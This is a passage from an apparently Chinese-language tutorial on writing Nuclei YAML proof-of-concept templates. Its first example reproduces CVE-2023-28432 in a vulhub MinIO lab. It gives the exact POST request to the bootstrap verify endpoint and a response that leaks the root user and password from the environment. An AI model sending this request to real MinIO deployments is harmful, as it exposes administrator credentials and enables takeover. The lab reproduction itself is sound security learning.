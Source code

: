 yaml 编写 poc，其实方法与 python 或者其它语言 编写 poc 类似，都是需要 构造特殊请求，然后判断特殊回显，yaml 语法 的拓展性极强，可以完美嵌合到 Nuclei 里

## 例子1 

https://github.com/vulhub/vulhub/blob/master/minio/CVE-2023-28432/README.zh-cn.md

开启 vulhub 环境 ，关闭环境为 `docker-compose down`

```
──(root💀kali)-[~/Desktop/vulhub/minio/CVE-2023-28432]
└─# docker-compose up -d  
```

手动复现，请求：

```http
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 192.168.10.5:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
```

返回：

```http
HTTP/1.1 200 OK
Content-Security-Policy: block-all-mixed-content
Strict-Transport-Security: max-age=31536000; includeSubDomains
Vary: Origin
X-Amz-Id-2: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
X-Amz-Request-Id: 179226E16C20DBD7
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Date: Sat, 28 Oct 2023 03:12:39 GMT
Content-Length: 1107
Content-Type: text/plain; charset=utf-8
Connection: close

{"MinioEndpoints":[{"Legacy":true,"SetCount":1,"DrivesPerSet":3,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"node1:9000","Path":"/mnt/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"node2:9000","Path":"/mnt/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"node3:9000","Path":"/mnt/data3","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://node1:9000/mnt/data1 http://node2:9000/mnt/data2 http://node3:9000/mnt/data3","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_ROOT_PASSWORD":"minioadmin-vulhub","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"minioadmin","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key"}}
```
